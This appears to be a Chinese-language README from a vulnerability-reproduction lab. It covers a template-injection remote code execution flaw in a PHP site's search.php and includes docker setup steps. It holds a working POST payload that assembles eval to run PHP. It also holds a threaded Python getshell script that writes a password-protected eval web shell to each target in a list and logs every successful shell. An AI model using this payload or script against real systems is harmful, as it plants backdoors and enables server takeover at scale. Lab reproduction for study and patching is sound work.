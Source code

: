 ## 环境构建
```
docker-compose build 
docker-compose up -d
```


## 漏洞介绍

### Payload

url:http://127.0.0.1:8002/search.php

POST: searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=ph&9[]=pinfo();

![](luffy1.png)


getshell脚本

```
import sys
import requests
import threading
def exploit(target):
    if sys.argv[1]== "-f":
        target=target[0]
    url=target+"/search.php"
    payload = "fwrite(fopen('shell.php','w'),'<?php @eval($_POST[f0rmat])?>f0rmat');"
    data={
        "searchtype":"5",
        "searchword":"{if{searchpage:year}",
        "year":":e{searchpage:area}}",
        "area":"v{searchpage:letter}",
        "letter":"al{searchpage:lang}",
        "yuyan":"(join{searchpage:jq}",
        "jq":"($_P{searchpage:ver}",
        "ver":"OST[9]))",
        "9[]":payload,
    }

    shell = target+'/shell.php'
    try:
        requests.post(url,data=data)
        verify = requests.get(shell, timeout=3)
        if "f0rmat" in verify.content:
            print 'Write success,shell url:',shell,'pass:f0rmat'
            with open("success.txt","a+") as f:
                f.write(shell+'  pass:f0rmat'+"\n")
        else:
            print target,'Write failure!'
    except Exception, e:
        print e
def main():
    if len(sys.argv)<3:
        print 'python check_order.py.py -h target/-f target-file'
    else:
        if sys.argv[1] == "-h":
            exploit(sys.argv[2])
        elif sys.argv[1] == "-f":
            with open(sys.argv[2], "r") as f:
                b = f.readlines()
                for i in xrange(len(b)):
                    if not b[i] == "\n":
                        threading.Thread(target=exploit, args=(b[i].split(),)).start()

if __name__ == '__main__':
    main()
```

![](luffy2.png)



## 漏洞连接

[链接一](https://bbs.ichunqiu.com/thread-35140-1-5.html)

[链接二](https://www.cnblogs.com/sqyysec/p/7765703.html)


